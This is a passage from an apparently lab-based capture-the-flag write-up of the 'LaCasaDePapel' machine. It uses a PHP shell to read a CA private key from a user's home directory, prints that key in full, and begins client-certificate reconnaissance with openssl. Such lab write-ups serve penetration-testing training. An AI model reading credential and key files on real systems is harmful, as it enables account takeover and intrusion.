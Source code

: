 ```php
sudo file_get_contents('/home/nairobi/ca.key')
=> """
   -----BEGIN PRIVATE KEY-----\n
   MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb\n
   7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/\n
   2m+jLx7wNH2SwFBjJeo5lnz+ux3HB+NhWC/5rdRsk07h71J3dvwYv7hcjPNKLcRl\n
   uXt2Ww6GXj4oHhwziE2ETkHgrxQp7jB8pL96SDIJFNEQ1Wqp3eLNnPPbfbLLMW8M\n
   YQ4UlXOaGUdXKmqx9L2spRURI8dzNoRCV3eS6lWu3+YGrC4p732yW5DM5Go7XEyp\n
   s2BvnlkPrq9AFKQ3Y/AF6JE8FE1d+daVrcaRpu6Sm73FH2j6Xu63Xc9d1D989+Us\n
   PCe7nAxnAgMBAAECggEAagfyQ5jR58YMX97GjSaNeKRkh4NYpIM25renIed3C/3V\n
   Dj75Hw6vc7JJiQlXLm9nOeynR33c0FVXrABg2R5niMy7djuXmuWxLxgM8UIAeU89\n
   1+50LwC7N3efdPmWw/rr5VZwy9U7MKnt3TSNtzPZW7JlwKmLLoe3Xy2EnGvAOaFZ\n
   /CAhn5+pxKVw5c2e1Syj9K23/BW6l3rQHBixq9Ir4/QCoDGEbZL17InuVyUQcrb+\n
   q0rLBKoXObe5esfBjQGHOdHnKPlLYyZCREQ8hclLMWlzgDLvA/8pxHMxkOW8k3Mr\n
   uaug9prjnu6nJ3v1ul42NqLgARMMmHejUPry/d4oYQKBgQDzB/gDfr1R5a2phBVd\n
   I0wlpDHVpi+K1JMZkayRVHh+sCg2NAIQgapvdrdxfNOmhP9+k3ue3BhfUweIL9Og\n
   7MrBhZIRJJMT4yx/2lIeiA1+oEwNdYlJKtlGOFE+T1npgCCGD4hpB+nXTu9Xw2bE\n
   G3uK1h6Vm12IyrRMgl/OAAZwEQKBgQDahTByV3DpOwBWC3Vfk6wqZKxLrMBxtDmn\n
   sqBjrd8pbpXRqj6zqIydjwSJaTLeY6Fq9XysI8U9C6U6sAkd+0PG6uhxdW4++mDH\n
   CTbdwePMFbQb7aKiDFGTZ+xuL0qvHuFx3o0pH8jT91C75E30FRjGquxv+75hMi6Y\n
   sm7+mvMs9wKBgQCLJ3Pt5GLYgs818cgdxTkzkFlsgLRWJLN5f3y01g4MVCciKhNI\n
   ikYhfnM5CwVRInP8cMvmwRU/d5Ynd2MQkKTju+xP3oZMa9Yt+r7sdnBrobMKPdN2\n
   zo8L8vEp4VuVJGT6/efYY8yUGMFYmiy8exP5AfMPLJ+Y1J/58uiSVldZUQKBgBM/\n
   ukXIOBUDcoMh3UP/ESJm3dqIrCcX9iA0lvZQ4aCXsjDW61EOHtzeNUsZbjay1gxC\n
   9amAOSaoePSTfyoZ8R17oeAktQJtMcs2n5OnObbHjqcLJtFZfnIarHQETHLiqH9M\n
   WGjv+NPbLExwzwEaPqV5dvxiU6HiNsKSrT5WTed/AoGBAJ11zeAXtmZeuQ95eFbM\n
   7b75PUQYxXRrVNluzvwdHmZEnQsKucXJ6uZG9skiqDlslhYmdaOOmQajW3yS4TsR\n
   aRklful5+Z60JV/5t2Wt9gyHYZ6SYMzApUanVXaWCCNVoeq+yvzId0st2DRl83Vc\n
   53udBEzjt3WPqYGkkDknVhjD\n
   -----END PRIVATE KEY-----\n
   """
```

I tried to both execute system commands or get the SSH keys for some of the other users using PHP but no luck.

## Website

Accesing the site using `http` is pretty useless. I mean, maybe you can do something with the QR code and the authenticator token but I found nothing. However, when connecting to the server through `https` we get an error telling us that we need a client certificate. I guess is googling time because my knowledge here is pretty limite to be honest.

First, we will need to get the requirements for our client cert:

```bash
┌──(kali㉿kali)-[~]
└─$ openssl s_client -connect 10.10.10.131:443
CONNECTED(00000003)
Can't use SSL_get_servername
depth=0 CN = lacasadepapel.htb, O = La Casa De Papel
verify error:num=18:self-signed certificate
verify return:1
depth=0 CN = lacasadepapel.htb, O = La Casa De Papel
verify return:1
---
Certificate chain
 0 s:CN = lacasadepapel.htb, O = La Casa De Papel
   i:CN = lacasadepapel.htb, O = La Casa De Papel
   a:PKEY: rsaEncryption, 2048 (bit); sigalg: RSA-SHA256
   v:NotBefore: Jan 27 08:35:30 2019 GMT; NotAfter: Jan 24 08:35:30 2029 GMT
---
Server certificate
-----BEGIN CERTIFICATE-----
```